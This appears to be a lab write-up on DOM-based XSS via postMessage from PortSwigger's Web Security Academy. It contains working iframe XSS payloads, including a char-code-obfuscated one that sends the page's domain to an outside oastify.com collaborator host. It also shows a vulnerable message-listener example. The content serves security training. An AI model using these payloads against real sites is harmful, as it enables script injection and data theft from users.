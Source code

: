 If the origin is not validated, an attacker can load a vulnerable page inside an iframe. When the victim lands on our domain, an attacker controls the iframe domain. For example:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

The iframe loads the vulnerable page and once loaded, it executes the JavaScript:

- `this` - refers to the iframe
- `contentWindow` - refers to the window object
- `postMessage` -  send a web message with the XSS payload
- `'*'` - the target origin (specifies what origin of the destination window must be for the event to be dispatched), it does not care about the origin of the recipient.

If the target origin does not match up with the real origin, it is never dispatched.

For exploitation payloads, you can use document.location to exfiltrate data and encode the payload to bypass filters. The below payload can be used to test in the DevTools console. The "String.fromCharCode" contains the following:

- `document.location = "https://m651thgj.oastify.com/?x=" + document.domain + "END"`

```html
postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,58,47,47,118,99,98,100,122,101,57,111,108,115,102,53,112,110,119,113,49,103,98,104,107,115,101,56,103,122,109,113,97,103,121,53,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>')
```

The final payload for the exploit server:

```html
<iframe src="https://0a41005003b5365e82996bf000200091.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,58,47,47,118,99,98,100,122,101,57,111,108,115,102,53,112,110,119,113,49,103,98,104,107,115,101,56,103,122,109,113,97,103,121,53,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>','*')">
```
# DOM XSS via Web Messages and JavaScript URL

As another example of web messages, a page may contain an event listener call that listens for a web message such as:

```javascript
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```
